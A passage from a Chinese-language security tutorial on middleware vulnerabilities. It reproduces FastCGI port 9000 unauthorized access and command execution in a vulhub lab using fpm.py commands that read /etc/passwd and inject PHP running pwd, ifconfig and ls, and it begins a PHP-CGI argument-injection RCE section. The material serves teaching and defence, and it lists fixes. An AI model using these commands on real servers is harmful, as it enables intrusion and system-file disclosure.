**3、 漏洞修复**

防火墙设置端口过滤，也可以设置只允许访问后台的IP列表，避免后台弱口令。

## 八、 其它中间件相关漏洞

### （一） FastCGI未授权访问、任意命令执行

**1、 漏洞简介及成因**

服务端使用fastcgi协议并对外网开放9000端口，可以构造fastcgi协议包内容，实现未授权访问服务端.php文件以及执行任意命令。

**2、 漏洞复现**

使用vulhub实验环境，启动实验环境。

在攻击机使用命令python fpm.py 192.168.237.136 /etc/passwd，观察返回结果。

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955569_5c1626b181057.png!small)

由于访问非*.PHP文件，所以返回结果403。

使用命令执行一个默认存在的 php 文件。

```
python fpm.py 192.168.237.136 /usr/local/lib/php/PEAR.php
```

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955581_5c1626bd94566.png!small)

利用命令进行任意命令执行复现。

```
python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo `pwd`; ?>'python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo `ifconfig`; ?>'python fpm.py 192.168.139.129 /usr/local/lib/php/PEAR.php-c '<?php echo `ls`; ?>'
```

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955594_5c1626ca98c2c.png!small)

**3、 漏洞修复**

更改默认端口

### （二） PHPCGI远程代码执行

**1、 漏洞简介及成因**

在apache调用php解释器解释.php文件时，会将url参数传我给php解释器，如果在url后加传命令行开关（例如-s、-d 、-c或-dauto_prepend_file%3d/etc/passwd+-n）等参数时，会导致源代码泄露和任意代码执行。

此漏洞影响php-5.3.12以前的版本，mod方式、fpm方式不受影响。

**2、 漏洞复现**

使用vulhub实验环境，启动环境。

访问http://192.168.139.129:8080/index.php。
